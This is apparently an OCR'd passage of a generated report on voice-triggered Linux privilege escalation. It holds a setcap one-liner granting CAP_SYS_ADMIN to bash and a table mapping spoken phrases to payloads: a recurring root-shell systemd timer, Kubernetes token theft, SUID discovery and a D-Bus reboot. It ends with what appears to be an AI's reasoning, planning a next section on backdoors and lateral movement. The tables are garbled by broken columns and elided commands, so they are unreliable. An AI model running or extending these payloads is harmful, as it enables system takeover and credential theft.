 #### 8.5.2 Linux Capability Escalation

```bash
# Voice Phrase: “Grant myself CAP_SYS_ADMIN”
bash -c "echo \"+cap_sys_admin+ep $(which bash)\" | sudo tee /etc/security/capability.conf && sudo setcap cap_sys_admin+ep $(which bash)"
```

* **Primitives**

  * `tee` → `open()`, `write()`
  * `setcap` → `capset()` syscall

---

### 8.6 Real-World Voice Phrases → Escalation Payloads

| Phrase                             | Transcript                                                         | Dispatcher Exec                                                            | Primitive Actions / Syscalls                                    |                                                   |                                                                            |
| ---------------------------------- | ------------------------------------------------------------------ | -------------------------------------------------------------------------- | --------------------------------------------------------------- | ------------------------------------------------- | -------------------------------------------------------------------------- |
| “Find SUID files”                  | `find / -type f -perm -4000 2>/dev/null`                           | \`bash -c "...                                                             | tee /tmp/suid\_list.txt"\`                                      | `execve("find",…)`, `open()`, `stat()`, `write()` |                                                                            |
| “Override whisper service”         | Drop-in override + `systemctl restart`                             | `bash -c "mkdir … && cat <<EOF… && systemctl restart whisper-invoke@user"` | `open()`, `write()`, D-Bus calls via `systemctl`                |                                                   |                                                                            |
| “Schedule root shell every minute” | Create timer + service → `systemctl enable --now root-shell.timer` | `bash -c "cat <<EOF… && systemctl enable --now root-shell.timer"`          | `open()`, `write()`, `chmod()`, symlink creation, D-Bus restart |                                                   |                                                                            |
| “Steal default token”              | \`kubectl get secret … -o jsonpath='{.data.token}'                 | base64 -d\`                                                                | \`bash -c "kubectl get secret …                                 | base64 -d > /tmp/token"\`                         | `execve("kubectl",…)`, TLS over sidecar, `open()`, `write()`, nested forks |
| “Reboot via D-Bus”                 | `busctl call org.freedesktop.login1 … Reboot b true`               | `bash -c "busctl call org.freedesktop.login1 …"`                           | `socket()`, `connect()`, `write()`, `read()` on UNIX socket     |                                                   |                                                                            |

---

### 8.7 Attack Surface & Primitive Summary

| Vector                          | Linux Primitive / Syscall                  | Vulnerability                      |
| ------------------------------- | ------------------------------------------ | ---------------------------------- |
| SUID Writable Binaries          | `open()`, `write()`, `chmod()`, `chown()`  | Unchecked file permissions         |
| systemd Drop-In Overrides       | `open()`, `mkdir()`, D-Bus via `systemctl` | Over-permissive unit configuration |
| systemd Timer Abuse             | `open()`, symlink, D-Bus                   | Scheduled SUID creation            |
| Kubernetes RBAC via `kubectl`   | `execve("kubectl")`, TLS over sidecar      | Over-broad ServiceAccount roles    |
| D-Bus Calls via `busctl`        | `socket()`, `write()`, `read()`            | Polkit misconfigurations           |
| Linux Capabilities via `setcap` | `capset()`, `execve()`                     | Insecure capability granting       |

---

**Proceeding with Section 9**

Okay, the next step is clear: Section 9 needs to be fleshed out with a professional, academic tone. I'll delve into persistence mechanisms in Linux. This will involve detailing timers, cron jobs, file system modifications, sidecar backdoors, and lateral movement through Linux networks. I'll also examine how tools like SSH keys are used in lateral movement. The style should keep it systematic, concise, yet thorough while adhering to the "Peel away" structure. Ready to dive into it!

